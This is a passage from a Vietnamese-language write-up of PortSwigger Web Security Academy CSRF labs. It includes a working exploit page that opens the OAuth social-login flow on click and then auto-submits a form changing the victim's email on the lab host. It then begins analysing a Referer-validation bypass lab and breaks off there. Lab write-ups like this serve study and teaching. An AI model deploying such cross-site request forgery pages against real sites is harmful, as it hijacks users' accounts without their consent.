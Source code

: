 - Trong trình duyệt, hãy lưu ý rằng nếu bạn truy cập /social-login, thao tác này sẽ tự động bắt đầu luồng OAuth đầy đủ. Nếu bạn vẫn có phiên đăng nhập với máy chủ OAuth thì tất cả điều này sẽ diễn ra mà không có bất kỳ tương tác nào.

### Khai thác

```javascript
<form method="POST" action="https://0ae200f20423f9ef8060445600240076.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0ae200f20423f9ef8060445600240076.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

![image](https://hackmd.io/_uploads/HyHzr6rq6.png)

store và gửi cho victim

![image](https://hackmd.io/_uploads/BJzqETrqT.png)

## 10. Lab: CSRF where Referer validation depends on header being present

link: https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present

### Đề bài

![image](https://hackmd.io/_uploads/HyLbupS56.png)

### Phân tích

- mình đăng nhập với tài khoản cho sẵn và thực hiện update email.

![image](https://hackmd.io/_uploads/B1pTuaS5T.png)

- web không có trường ngẫu nhiên khó đoán bằng csrf token cũng không có bảo vệ qua cookies bằng SameSite như những bài trước
- Ứng dụng web này trang bị cơ chế chống CSRF bằng cách validate trường Referer.

- Nếu ta thay đổi Referer khác domain của ứng dụng web thì server sẽ trả về Invalid referer header.
